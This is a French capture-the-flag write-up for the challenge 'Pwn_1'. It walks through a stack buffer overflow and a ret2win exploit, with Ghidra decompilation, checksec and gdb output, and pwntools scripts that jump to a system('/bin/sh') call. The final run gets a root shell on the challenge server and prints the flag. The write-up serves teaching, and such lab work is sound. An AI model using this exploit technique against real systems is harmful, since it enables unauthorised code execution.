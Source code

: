 # Pwn_1

## Analyse statique

À l'aide de Ghidra on retrouve :

- un buffer overflow dans `main` :

```C
char local_12 [10];

puts(&DAT_00402340);
fgets(local_12,50,stdin);
```

- une fonction `win` qui ouvre un shell :

```C
system("/bin/sh");
```

Vérifions les sécurités activées sur le binaire :

```console
$ checksec --file pwn_1 
[*] '/tmp/coucou/pwn_1'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    Stripped:   No
```

Pas de canary : nous pouvons utiliser le buffer overflow pour rediriger le programme.
Pas de PIE : nous pouvons avoir l'adresse de `win`.

Nous sommes dans le cas d'un [ret2win](https://ir0nstone.gitbook.io/notes/binexp/stack/ret2win). Il faut réecrire par dessus l'adresse utilisée pour `return` dans le main, et rediriger le programme vers la fonction `win` pour obtenir un `shell`.

## Analyse dynamique

Le padding nécessaire pour rediriger le programme :

```python
from pwn import *

payload = b"".join([
    b"A"*18,
    b"B"*8,
])

p = process("./pwn_1")
input("Waiting for debuger")
p.send(payload+b"\n")
p.interactive()
```

```gdb
───────────────────────────────────────────────────────────────────────────────────────── stack ────
0x00007ffd7c6f1e38│+0x0000: "BBBBBBBB\n"	 ← $rsp
0x00007ffd7c6f1e40│+0x0008: 0x00007ffd7c6f000a  →  0x0000000000000000
0x00007ffd7c6f1e48│+0x0010: 0x00007ffd7c6f1f58  →  0x00007ffd7c6f2fbc  →  0x00315f6e77702f2e ("./pwn_1"?)
0x00007ffd7c6f1e50│+0x0018: 0x0000000100400040 ("@"?)
0x00007ffd7c6f1e58│+0x0020: 0x00000000004011b7  →  <main+0000> push rbp
0x00007ffd7c6f1e60│+0x0028: 0x00007ffd7c6f1f58  →  0x00007ffd7c6f2fbc  →  0x00315f6e77702f2e ("./pwn_1"?)
0x00007ffd7c6f1e68│+0x0030: 0x3c27ced470f780c2
0x00007ffd7c6f1e70│+0x0038: 0x0000000000000001
───────────────────────────────────────────────────────────────────────────────────────── code:x86:64 ────
     0x4011e6 <main+002f>      call   0x401030 <puts@plt>
     0x4011eb <main+0034>      mov    eax, 0x0
     0x4011f0 <main+0039>      leave  
 →   0x4011f1 <main+003a>      ret    
[!] Cannot disassemble from $PC
───────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "pwn_1", stopped 0x4011f1 in main (), reason: SIGSEGV
```

Depuis Ghidra nous pouvons retrouver l'adresse de la function `win` : `0x00401166`.

## Exploit

```python3
from pwn import *

system = 0x00401166

payload = b"".join([
    b"A"*18,
    p64(system),
])

p = process("./pwn_1")
p.send(payload+b"\n")
p.recvuntil(b"adorable...\n")

p.interactive()
```

```console
$ python3 ./solve.py 
[+] Starting local process './pwn_1': pid 50733
[*] Switching to interactive mode
LOGGED IN

User : Admin

Options :
1 - shell
2 - exit
$ 1
Quoi ?! Comment es-tu arrivé ici ?! Je savais que j’aurais dû supprimer tout ça… Peu importe, je ne te laisserai pas aller plus loin !
[*] Got EOF while reading in interactive
$ 
[*] Process './pwn_1' stopped with exit code -11 (SIGSEGV) (pid 50733)
[*] Got EOF while sending in interactive
```

Nous sommes arrivé jusqu'à la fonction `win`, mais pas de shell... En regardant la fonction de plus prêt :

```C
fgets(user_input,2,stdin);
strcmp_return_code = strcmp(user_input,"1");
if (strcmp_return_code == 0) {
    puts(&DAT_004022a8);
    if (user_input[0] == '\0') {
        system("/bin/sh");
    }
}
```

Pour passer cette condition : `if (strcmp_return_code == 0) {`, il faut saisir `1`. Mais pour atteindre le shell, il faut que `user_input` soit vide : `if (user_input[0] == '\0') {`. Se sont des conditions insatisfiable. Plutôt que d'exécuter toute la fonction `win`, nous allons donc directement aller à l'exécution de `system` qui nous intéresse :

```gdb
   0x00000000004011c9 <+99>:	lea    rax,[rip+0xefe]
   0x00000000004011d0 <+106>:	mov    rdi,rax
   0x00000000004011d3 <+109>:	call   0x401040 <system@plt>

```

```python
from pwn import *

system = 0x004011c9

payload = b"".join([
    b"A"*18,
    p64(system),
])

p = process("./pwn_1")
p.send(payload+b"\n")
p.recvuntil(b"adorable...\n")

p.interactive()
```

```console
$ python3 ./solve.py 
[+] Starting local process './pwn_1': pid 51915
[*] Switching to interactive mode
$ whoami
geoffrey
```

Plus qu'à lancer sur le serveur avec [ce script](./solve.py) :

```console
$ python3 ./solve.py 
[+] Opening connection to localhost on port 6969: Done
[*] Switching to interactive mode
$ whoami
root
$ cat flag.txt
LABO{uB!e0_VcDfiplquZS4gN}
```
